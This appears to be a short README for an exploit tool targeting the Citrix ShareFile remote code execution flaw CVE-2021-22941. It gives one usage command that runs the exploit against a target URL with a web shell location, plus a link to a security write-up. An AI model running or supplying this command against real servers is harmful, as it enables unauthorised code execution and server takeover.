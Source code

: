 ## Use
python3 exploit -u url --shell http://127.0.0.1/shell --ping 127.0.0.1
## Reference
https://codewhitesec.blogspot.com/2021/09/citrix-sharefile-rce-cve-2021-22941.html